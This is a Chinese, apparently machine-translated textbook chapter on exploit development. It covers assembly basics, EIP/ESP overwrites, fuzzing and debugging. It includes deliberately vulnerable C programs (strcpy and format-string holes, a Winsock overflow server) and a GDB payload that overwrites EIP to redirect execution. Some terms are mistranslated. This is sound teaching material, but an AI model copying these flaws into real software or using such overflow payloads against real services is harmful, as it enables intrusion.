# 第三章开发配方流程

利用公式是所有关于利用是如何进行的以及它们实际上是由什么组成的。在本章中，我们将介绍各种漏洞，并尝试开发利用这些漏洞的方法。除此之外，我们的主要重点将是为 Metasploit 构建利用模块。我们还将介绍各种各样的工具，这些工具将有助于利用 Metasploit 中的编写。然而，开发写作的一个重要方面是**汇编**语言的基础。如果我们不介绍组装的基本知识，我们将无法理解实际工作原理。因此，让我们首先开始讨论汇编语言以及利用汇编语言编写漏洞所需的基本要素。

在本章结束时，我们将了解有关以下主题的更多信息：

*   开发发展阶段
*   编写漏洞利用时要考虑的参数
*   各种寄存器如何工作
*   如何对软件进行模糊化
*   如何在 Metasploit 框架中编写漏洞利用
*   结构化异常处理程序的基本原理

# 元素组装底漆

在本节中，我们将了解汇编语言的基础知识。我们将讨论不同体系结构中支持的各种各样的**寄存器**。我们还将讨论**扩展指令指针****EIP**和**扩展堆栈指针****ESP**及其在写出漏洞利用中的重要性。我们还将了解**无操作**（**NOP**）和**跳转**（**JMP**）指令及其在编写各种软件开发中的重要性。

## 基础

让我们讨论一下学习写作所必需的基础知识。

让我们介绍一下本章中使用的术语的基本定义。以下术语基于开发中的硬件、软件和安全角度：

*   **寄存器**：该是处理器上用于存储信息的区域。此外，处理器执行的每个进程都是通过寄存器执行的。
*   **x86**：这是一个系统体系结构家族，主要存在于基于 Intel 的系统上，通常是 32 位系统，而 x64 是 64 位系统。
*   **汇编语言**：这是一种操作简单的低级编程语言。然而，读取汇编代码并维护它是一个很难解决的问题。
*   **Buffer**：Buffer 是程序中固定的内存持有者，它通常根据所持有的内存类型将数据存储到堆栈或堆中。
*   **调试器**：这个是一个程序，它在运行时调试另一个程序，以发现一个程序在执行各种指令时可能遇到的不同问题以及寄存器和内存的状态。广泛使用的调试器有**免疫调试器**、**GDB**、和**OllyDbg**。
*   **外壳代码**：成功利用目标后运行的代码称为外壳代码。它定义了剥削的原因。
*   **堆栈**：此作为数据的占位符，一般使用**后进先出**（**后进先出**方法存储数据，即最后插入的数据是第一个被删除的数据。
*   **缓冲区溢出**：此通常表示缓冲区中提供的数据多于其容量。
*   **格式字符串错误**：这些是与文件或控制台上下文中的`print`语句相关的错误，当给定一组变量数据时，可能会泄露有关程序的重要信息。
*   **系统调用**：这些是对正在执行的程序调用的系统级方法的调用。

## 建筑

架构定义了系统的各个组件是如何组织的。让我们先了解基本组件，然后深入到高级阶段。

### 系统组织基础

在我们开始编写程序和执行调试等其他任务之前，让我们通过下图了解组件在系统中的实际组织方式：



我们可以清楚地看到，系统中的每个主要组件都是通过系统总线连接的。因此，在**CPU**、**内存**和**I/O 设备**之间发生的每个通信都是通过系统总线进行的。

CPU 是系统中的中央处理器，它确实是系统中最重要的组件。因此，让我们通过理解下图来了解 CPU 中的事物是如何组织的：


上图显示了 CPU 的基本结构，其组件包括**控制单元****CU**、**执行单元****EU**、**寄存器**和【T13 标志】。让我们了解下表中解释的这些组件：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

组件

 | 

工作

 |
| --- | --- |
| 控制单元 | 这是负责接收和解码指令，并将数据存储在存储器中 |
| 执行单位 | 这里是实际执行的地方 |
| 登记册 | 寄存器是辅助执行的占位符内存变量 |
| 旗帜 | 这是用于指示执行时发生的事件 |

## 寄存器

寄存器是非常快的计算机内存组件。它们也列在内存层次结构速度表的顶部。通常，我们通过寄存器可容纳的位数来测量寄存器，例如 8 位寄存器和 32 位寄存器分别容纳 8 位和 32 位内存。**通用**、**段**、**EFLAGS**、**索引寄存器**是系统中不同类型的相关寄存器。它们负责执行系统中几乎所有的功能，因为它们保存所有要处理的值。让我们看看它们的类型：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

登记册

 | 

用于

 |
| --- | --- |
| EAX | 这个是一个累加器，它用于存储数据和操作数。它的大小是 32 位。 |
| EBX | 这是基址寄存器和指向数据的指针。它的大小是 32 位。 |
| ECX | 这是一个计数器，用于循环目的。它的大小是 32 位。 |
| EDX | 这是一个数据寄存器，存储 I/O 指针。它的大小是 32 位。 |
| ESI/EDI | 这些是索引寄存器，用作内存操作的数据指针。它的大小也是 32 位。 |
| ESP | 这是堆栈指针寄存器，它告诉您它当前在堆栈中的确切位置。它的大小是 32 位。 |
| EBP | 这是堆栈数据指针寄存器，大小为 32 位。 |
| 公网 IP | 这是程序计数器（指令指针），大小为 32 位，在本章中最为重要。它还保存下一条要执行的指令的地址。 |
| SS、DS、ES、CS、FS、和 GS | 这些是段寄存器。它们的大小为 16 位。 |

## EIP 的重力

EIP 或程序计数器是一个 32 位寄存器，用于保存程序将执行的下一条指令的值。现在，我们为什么要讨论它？我们之所以讨论它，是因为要利用系统或服务，我们需要用我们希望程序重定向的指令地址覆盖当前驻留在 EIP 中的地址。这意味着当我们利用系统时，我们覆盖 EIP 的值，将程序流重定向到我们所需的代码，并执行我们需要在目标上执行的任何功能。

让我们使用以下代码在 C 中创建一个程序：

```
//Header Files Section
int main(int argc , char *argv[])
{
if(argc<2)
{
printf("Please Supply a value in arguments");
exit(0);
}
char buffer[10];
strcpy(buffer , argv[1]);
printf("\nYour Entered Value is:");
printf(buffer);
}
void nowork()
{
printf("This is Me");
exit(0);
}
```

前面的代码在通过提供命令行参数执行时，只需打印出提供的值。这里要分析的一个重要内容是名为`nowork()`的函数。因为它在程序中的任何地方都没有被调用，所以它不会执行。但是，如果我们用这个函数的地址覆盖 EIP，我们可以只通过提供命令行参数来运行这个函数。我们可以看到这里的缓冲区大小是 10。因此，无论我们在它之后输入什么，它都会直接覆盖 EIP 中的地址。因此，这意味着如果我们在缓冲区之后提供任何内容，它将成为 EIP 寄存器的内容。但是，让我们看看哪些内容将覆盖 EIP。我们需要用要执行的函数的地址覆盖 EIP。因此，我们需要找到函数的地址。我们可以通过将前面的程序加载到 GDB 中并搜索`nowork()`函数的起始地址来实现，如下面的代码段所示：

```
 (gdb) disas nowork
Dump of assembler code for function nowork:
 0x080484e0 <+0>:   push   %ebp
 0x080484e1 <+1>:   mov    %esp,%ebp
 0x080484e3 <+3>:   sub    $0x4,%esp
 0x080484e6 <+6>:   movl   $0x80485b3,(%esp)
 0x080484ed <+13>:  call   0x8048340 <printf@plt>
 0x080484f2 <+18>:  movl   $0x0,(%esp)
 0x080484f9 <+25>:  call   0x8048370 <exit@plt>

```

我们可以看到模块从`0x080484e0`地址开始。因此，这是我们将用于覆盖 EIP 中当前内容的地址。让我们看看如何做到这一点：

```
 (gdb) run $(perl -e print' "A"x14 . "\xe0\x84\x04\x08"')
Starting program: /home/apex/Desktop/Misc/yo $(perl -e print' "A"x14 . "\xe0\x84\x04\x08"')
The Value You Supplied isAAAAAAAAAAAAAAЄThis is Me[Inferior 1 (process 4313) exited normally] 

```

我们可以看到前面的结果。我们在 GDB 下运行程序，并提供了 14 次`A`字符。我们看到，在 14 个`A`字符之后，我们提供的任何地址都成为 EIP 的内容并执行模块。然而，这里有一个问题是我们提供了`\xe0\x84\x04\x08`，但实际地址是`0x080484e0`。然而，如果我们能稍微集中一下，这是相同的地址，但顺序相反。这是因为当指令的值被推送到堆栈上，并且当它们被弹出时，值被反转。因此，需要将地址转换为正确的值。我们可以通过以相反的顺序放置四对 2 字节来实现这一点，这样当弹出值时，它就是实际值。我们还可以看到，当我们运行程序时，它执行了`nowork()`功能，我们看到输出中打印了以下消息：**这是我**。此外，我们可以清楚地看到 EIP 注册的重要性。因此，如果攻击者覆盖此值，他们可以重定向程序的执行。

我们可以使用 C 中适当且更安全的函数来防止此类攻击。有关我们需要避免的函数的更多信息，请参见[https://security.web.cern.ch/security/recommendations/en/codetools/c.shtml](https://security.web.cern.ch/security/recommendations/en/codetools/c.shtml) 。

在这个时候，大多数事情可能并不清楚。这里的想法只是向您展示如何覆盖 EIP 地址。在本章中，我们还将了解为什么我们提供了 14 个`A`字符，而不是 10 个，这是实际的缓冲区大小。

### 注

使用`–mpreferred-stack-boundary=2`和`–ggdb`开关编译程序，设置`/proc/sys`下`kernel`目录中的`randomize_va_space => 0`值，然后在 GDB 中执行。

## ESP 的重力

ESP 指向外壳代码。当涉及到利用漏洞编写时，成功利用目标后需要执行的所有操作都取决于有效负载的外壳代码。我们已经看到了如何覆盖 EIP 的值。类似地，我们在 EIP 进入 ESP 后提供的任何内容。这意味着在重定向程序控制后，我们提供外壳代码。执行外壳代码时，它会对受害者执行所需的任务，如以下代码段所示：

```
(gdb) run $(perl -e print' "A"x14 . "\xd0\x84\x04\x08" . "C"x500')
```

当我们运行前面的命令时，它将覆盖 EIP。但是，它也会将 500 个`C`字符放入 ESP。同样，我们需要插入外壳代码，而不是 500 个`C`字符。在本章后面的章节中，我们将看到如何将各种类型的外壳代码添加到我们的漏洞利用中，以实现所需的功能。

## NOPs 与 JMP 的相关性

NOPs 或 NOPs led 为无操作指令，仅将程序执行滑动到下一个内存地址。我们使用 NOP 到达内存地址中所需的位置或路径可能不规则的位置。我们通常在外壳代码开始之前提供 NOP，以消除内存地址中的不规则性，而无需执行任何操作，只需滑动内存地址。`\x90`指令表示十六进制格式的 NOP 操作。

JMP 指令是指跳转操作，即跳转一些代码行并到达目的地。在编写漏洞时，为了正确执行外壳代码，我们需要通过另一个文件或可执行模块跳转程序执行；只有这样，我们才能成功地跳跃。

## 变量和声明

在讨论如何在汇编语言中定义变量之前，让我们先看看汇编程序是如何组织的，从高内存地址到低内存地址。让我们分析下图：



我们可以在前面的图表中看到，我们有各种各样的部分是按照前面的格式组织的。让我们了解这些不同的部分是什么以及它们的目的是什么：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

小节

 | 

意思

 |
| --- | --- |
| `.data` | 所有初始化的数据都驻留在这里 |
| `.bss` | 所有未初始化的数据都驻留在这里 |
| `.text` | 这里定义了所有程序指令 |
| `.global_start` | 这是外部可调用的例程 |
| `_start` | 这是主功能例程 |
| `Stack` | 它保存变量和数据 |

好的，让我们看看汇编程序中的各种数据类型：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

类型

 | 

意思

 |
| --- | --- |
| `.byte` | 1 字节 |
| `.ascii` | 一串 |
| `.asciz` | 以空结尾的字符串 |
| `.int` | 32 位整数 |
| `.short` | 16 位整数 |
| `.float` | 单精度浮点 |
| `.double` | 双精度浮点 |

然而，要声明这些数据类型，我们需要在汇编程序的`.data`部分中定义它。假设我们用`Hi, How are you?`值定义一个字符串变量`Metasploit`。我们只需用汇编语言编写一些简短的代码即可实现这一点，如下所示：

```
.data
Metasploit:
.ascii"Hi How are you?"
```

让我们看看如何定义整数：

```
.data
a:
.int 10
```

## 制作示例装配程序

在充分了解基本汇编语言的基础上，让我们进一步研究并构建最简单的汇编程序，这将有助于我们理解汇编中实际如何工作。我们的第一个示例将演示如何在控制台上简单打印变量数据：

```
.data            ; initialize the data section
Hello:           ; declare variable
.ascii"Hello"    ; declare data type of the variable
.text            ; initialize the .text section
.global _start   ; define the global start
_start:          ; define the start of code
movl $4,%eax     ;load write system call number to EAX
movl $1,%ebx     ;load 1 into EBX to print onto the console
movl $Hello,%ecx ;load the actual variable into ECX
movl $5,%edx     ;load the length of actual variable to EDX
int $0x80        ; Software Interrupt
movl $1,%eax     ; load exit system call
movl $0,%ebx     ; parameter to exit system call
int $0x80        ; load the software interrupt
```

让我们分析前面的简单程序。在第一行，我们定义了`.data`来表示初始化数据部分的开始。接下来，我们声明了一个名为`Hello`的字符串。然后，我们从`.text`部分开始，定义`.global _start`，然后定义`_start:`，开始编写在程序执行期间运行的实际命令。这里需要注意的一点是，接下来的四条指令只不过是 write 系统调用的参数。编号`4`描述了系统调用编号`4`，即写入系统调用，我们需要将其加载到 EAX 寄存器中。接下来是参数值`1`，它定义了标准控制台上的输出。我们将其加载到 EBX 寄存器中。然后，我们得到了实际的变量，它保存着要加载到 ECX 寄存器的数据，最后，我们得到了要加载到 EDX 寄存器的变量所携带的数据的长度。然后，我们编写`int $0x80`来引发软件中断。

我们再次将一个值加载到 EAX 中；但是，这次加载的值是`1`，表示`EXIT`系统调用。我们在 EBX 中加载参数`0`以将`0`传递给`EXIT`系统调用。这个过程与 C 语言中的`exit(0)`完全相同。

要运行此程序，请键入以下命令：

```
root@kali:~#as code.s
root@kali:~#ld a.out -o program
root@kali:~#./program
Hello

```

因此，我们可以看到创建汇编程序很容易。然而，在进一步讨论之前，我建议您更深入地了解汇编，因为它将帮助您更轻松地理解软件的利用。

### 注

请参阅链接[http://www.tutorialspoint.com/assembly_programming/](http://www.tutorialspoint.com/assembly_programming/) 了解有关汇编语言的更多信息。

# 起毛的乐趣

模糊是指根据可变的数据输入来测试特定的应用程序，并分析特定软件或应用程序的行为。现在，让我们看看如何对应用程序进行模糊化，并从其行为方面收集要点，以便利用软件或应用程序。

## 应用程序崩溃

我们的第一个任务是以某种方式使应用程序崩溃。此外，我们的重点应该是如何使应用程序崩溃，以及在什么情况下应用程序崩溃。现在，这里出现的一个问题是为什么我们要使应用程序崩溃。这个问题的答案是分析当我们向应用程序提供不同数量和类型的输入时，重要寄存器（如 EIP 和 ESP）会发生哪些修改。因此，我们可以修改 fuzz 参数，用自定义值覆盖这两个寄存器。此外，我们使应用程序崩溃，以确定是否易受缓冲区溢出攻击。我们将首先创建一个使用缓冲区的简单应用程序，然后尝试将其崩溃。

申请代码如下：

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
#include <winsock.h>
#define BACKLOG 5
#define VER "Bof Server"
void usage(char * name)
{
  printf("To use: %s <port number>\n", name);
  exit (-1);
}
void    bserv_error(char *s, int n, char *msg)
{
  fprintf(stderr, "%s at line %i: %s, %s\n", s, n, msg, strerror(errno));
  exit(-1);
}
Int getl(int fd, char *s)
{
  int   n;
  int   ret;
  s[0] = 0;
  for (n = 0; (ret = recv(fd, s + n, 1, 0)) == 1 && 
         s[n] && s[n] != '\n'; n++)
    ;
  if (ret == -1 || ret == 0)
    return (-1);
  while (n && (s[n] == '\n' || s[n] == '\r' || s[n] == ' '))
    {
      s[n] = 0;
      n--;
    }
  return (n);
}
void    manage_client(int s)
{
  char bufspace[512];
  int cont = 1;
  while (cont)
    {
      send(s, "\r\n> ", 4, 0);
      if (getl(s, bufspace) == -1)
        return ;
      if (!strcmp(bufspace, "version"))
        send(s, VER, strlen(VER), 0);
      if (!strcmp(bufspace, "quit"))
        cont = 0;
    }
}
int main(int ac, char **av)
{
  int p;
  int s;
  int i;
  int pid;
  int cli_s;
  struct sockaddr_in    sin;
  struct sockaddr_in    cli_sin;

  if (ac != 2 || atoi(av[1]) > 65555)
    usage(av[0]);
  p = atoi(av[1]);
  WSADATA wsaData;
  if (WSAStartup(MAKEWORD(1, 1), &wsaData) != 0) {
    fprintf(stderr, "Failed Setting up WSA\n");
    exit(1);
  }
  if ((s = socket(PF_INET, SOCK_STREAM, 0)) == -1)
    bserv_error(__FILE__, __LINE__, "socket");
  sin.sin_family = AF_INET;
  sin.sin_port = htons(p);
  sin.sin_addr.s_addr = INADDR_ANY;
  if (bind(s, (struct sockaddr*)&sin, sizeof(sin)) == -1)
    bserv_error(__FILE__, __LINE__, "Unable to Bind");
  if (listen(s, 42) == -1)
    bserv_error(__FILE__, __LINE__, "Unable to Listen");
  i = sizeof(cli_sin);
  while ((cli_s = accept(s, (struct sockaddr*)&cli_sin, &i)) != -1)
    {
      printf("[%i] %s Connection Active\n", cli_s, inet_ntoa(cli_sin.sin_addr));
      manage_client(cli_s);
      printf("[%i] %s Connection Inactive\n", cli_s, inet_ntoa(cli_sin.sin_addr));
      closesocket(cli_s);
    }
  perror("Accepted");
  closesocket(s);
  return (0);
}
```

### 注

前面的代码取自[http://redstack.net/blog/wp-content/uploads/2008/01/bof-server.c](http://redstack.net/blog/wp-content/uploads/2008/01/bof-server.c) 。

下一步是编译此代码。要编译这段代码，我们需要有**lcc-win32**编译器，我们可以从[下载 http://www.cs.virginia.edu/~lcc-win32](http://www.cs.virginia.edu/~lcc-win32)。获得编译器后，我们需要编译代码并为前面的代码创建一个可执行文件。

为了运行前面代码的可执行文件，我们可以提供以下命令并传递`200`作为前面程序使用的端口号：


让我们检查一下是否成功打开了端口 200。我们可以在 CMD 中提供`netstat –an`命令进行检查，如下图所示：



我们可以看到，我们已经成功地在系统上打开了端口 200。让我们尝试使用`telnet`命令连接到它。

创建到端口 200 的连接的命令如下：

```
C:\> telnet localhost 200

```

我们输入此命令后，应用程序窗口中将显示已建立连接的通知，如以下屏幕截图所示：


让我们从 Telnet 窗口提供一些数据，看看应用程序是否崩溃。我们每次都会提供随机数量的数据，如以下屏幕截图所示：


我们可以看到，我们每次都随机提供`A`个字符，但应用程序没有崩溃。然而，一旦`A`字符数超过程序的缓冲区大小，它就会停止并崩溃，正如您在上次尝试中所看到的。

还将生成一个错误，类似于以下屏幕截图：



现在，让我们点击**点击**打开错误报告，查看报告数据包含哪些内容：


我们可以清楚地看到，我们已经提供了足够的`A`字符来使应用程序崩溃。**偏移量**中的**4141**值表示我们已经用`A`字符覆盖了 EIP。我们可以这样说，因为 41 代表字符`A`。不过，操作系统会将此错误信息发送到支持中心，帮助开发人员找出应用程序崩溃的原因。然而，**偏移量**是崩溃发生的地址，或者我们可以说是应用程序不知道从哪里继续的地址。现在，我们可以采取进一步的步骤来调查和开发此应用程序的适当漏洞。

## 可变输入电源

我们已经成功覆盖了上一节中的 EIP/**偏移量**。但是，我们如何知道所提供的`A`字符组中的哪个`A`覆盖了 EIP？让我们用一个例子来理解这个场景。假设我们提供了 500 个`A`字符，错误显示为**偏移量**字段为**4141**。我们无法从提供的 500 个`A`字符中找出哪个`A`已经覆盖了 EIP。它可能是第 201 辆`A`或第 346 辆，也可能是 1 到 500 辆之间的任何一辆。因此，应该有一种机制来找出覆盖 EIP 的`A`字符的确切数量。让我们使用变量输入重复前面的过程，以找到 EIP 覆盖地址的确切位置。然而，这次我们将从远程 Kali Linux 而不是 Telnet 进行攻击。那么，让我们首先创建一个包含垃圾数据的文件。让我们看看如何自动创建垃圾数据，而不是手动键入。我们可以通过一个简单的 Perl 命令来实现这一点，如下所示：


我们已经创建了将发送到 Windows 操作系统上运行的服务的数据，但这次我们已经消除了随机输入字符的手工劳动。这里，我们使用 Perl 来创建数据。现在，生成 300 个`A`字符和 300 个`B`字符背后的动机是验证服务在哪个部分崩溃。假设我们发送此数据时，如果**偏移量**字段中的**4141**出现相同错误，则表明崩溃发生在 600 个垃圾字符的前半部分，因为前半部分包含 300 个`A`字符，后半部分包含 300 个`B`字符。但是，如果它显示**4242**，它将显示确切的崩溃地址在 300 个字符以上，这意味着在 300 个`B`字符的下半部分。

因此，让我们看看我们得到了什么：



如我们所见，当我们将数据从文件发送到目标系统的目标端口时，由于崩溃，连接关闭。

让我们看看**偏移量**字段中显示了什么值：



我们可以清楚地看到崩溃发生在输入数据的后半部分，即 300B。现在，我们知道崩溃应用程序所需的确切缓冲区大小在提供的输入的 300 到 600 个字符中。

如我们在本节中所看到的，使用各种输入模糊化应用程序可能会泄露太多关于应用程序的信息。

## 产生垃圾

我们只是在前面的方法中看到，生成的随机输入有助于定位崩溃的确切字节数，但使用前面的方法，我们仍然需要多次修改脚本以找到崩溃的确切地址。但是，我们可以使用一些附加的 Metasploit 工具来缩短这个过程，这些工具作为 Metasploit 本身的一个包提供。生成大型数据模式的工具是`pattern_create.rb`。让我们看看它是如何工作的：



使用前面的命令，我们创建一个 600 字节的随机数据。我们可以将其作为输入提供给应用程序。生成此类输入的好处是，我们可以一次找到覆盖 EIP 的确切字节数。我们将很快看到使用此工具查找准确字节数的过程变得多么容易。同时，让我们看看如何监控应用程序的所有行为活动，如寄存器状态、链接到应用程序的可执行文件等。

## 免疫调试器简介

调试器是一个应用程序，它帮助我们在运行时发现应用程序的行为。这有助于我们找出缺陷、寄存器的值、对应用程序进行反向工程等等。分析我们在**免疫调试器**中正在开发的应用程序，不仅有助于我们更好地理解各个寄存器中包含的值，还将告诉我们有关目标应用程序的各种信息，例如崩溃发生的语句和链接到可执行文件的可执行模块。

从**文件**菜单中选择**打开**即可将可执行文件直接加载到**免疫调试器**中。我们还可以通过从**文件**菜单中选择**附加**选项，将正在运行的应用程序附加到**免疫调试器**中。让我们看看如何附加一个流程：



当我们导航到**文件****附件**时，它将向我们显示目标系统上正在运行的进程列表。我们只需要选择合适的流程。然而，这里的一个重要点是，当一个进程连接到**免疫调试器**时，默认情况下，它会以暂停状态着陆。因此，请确保按“播放”按钮将进程的状态从暂停状态更改为运行状态。但是，让我们看看如何在**免疫调试器**中附加进程：



让我们再次尝试将数据发送到应用程序，并查看寄存器的确切内容：



我们可以看到，大多数寄存器都被我们发送的`A`字符覆盖。**免疫调试器**的最好的部分是，它给出了所有不同寄存器的值，这样我们就可以很容易地确定加载了什么以及加载在哪里。

另一件重要的事情是找到可以在**视图**选项卡下看到的**可执行模块**部分，如以下屏幕截图所示：



选择**可执行模块**选项将向我们显示如下屏幕截图所示的列表：



这是正在运行的进程所需的文件列表。这些文件是编写漏洞利用的一个非常重要的方面。我们将在本章后半部分看到这些文件的作用。

### 提示

您可以参考一篇关于**免疫调试器**的优秀文档，并在[处编写利用漏洞代码 http://powerofcommunity.net/poc2007/dave.pdf](http://powerofcommunity.net/poc2007/dave.pdf) 。

## GDB 简介

GDB 是一个开源调试器，它在编写漏洞利用和分析应用程序的各种寄存器和行为分析方面提供了很大帮助。GDB 与**免疫调试器**完全相同，但它使用命令行而不是 GUI。GDB 在利用基于 Linux 的服务时很有帮助。让我们看看如何加载一个简单的应用程序并分析其行为：

```
#gdb ./[file-name]

```

现在，让我们加载该文件，看看如何在 GDB 中执行各种功能，并掌握 GDB 的基本知识：



在 GDB 中加载程序后的第一件事是查看加载文件的源代码。我们可以通过键入`list`命令来完成此操作，如以下屏幕截图所示：



让我们试着运行这个程序，看看在 GDB 下运行它的输出和好处：



正如我们在前面的屏幕中看到的，程序使用`Hello`参数运行并打印出值。

让我们尝试提供一个可能导致应用程序溢出的值，并分析输出：



我们可以看到，输入导致程序中出现分段错误，并且程序无法读取 EIP 中的值，因为我们用大量的`A`字符重写了 EIP 的值。因此，程序对`0x41414141`地址产生了混淆。现在，让我们看看如何使用 GDB 系统地分析程序，看看到底是什么导致了溢出。

首先，我们将在程序中设置断点。断点将帮助我们在所需步骤停止程序的执行。我们也可以说断点是进程执行停止或暂停的点。设置断点有助于我们系统地分析堆栈和寄存器的状态。让我们看看如何做到这一点：



我们使用`break`命令在`12`行设置断点。现在让我们使用与之前相同的输入运行程序，看看寄存器的值是什么：



我们可以清楚地看到程序的执行在第`12`行停止。现在，我们可以使用`info registers`命令来分析寄存器的状态，看到寄存器的当前值，如下图所示：



我们可以看到登记册的内容，但这里没有可疑之处。让我们将程序的执行分步到下一行。单步执行意味着从中断发生的位置执行下一行代码。我们可以通过输入`s`来跨行。因此，GDB 将在中断后执行一行并再次停止。我们将看到一些值发生更改，但仍然没有溢出的迹象。在再次执行两三个指令之后，我们将看到溢出将发生。这意味着只有在打印值或执行`return`调用时才会发生溢出。这意味着输入值将在整个程序中保持沉默，直到执行`print`或`return`调用。让我们看看执行最后一行代码时得到的输出：

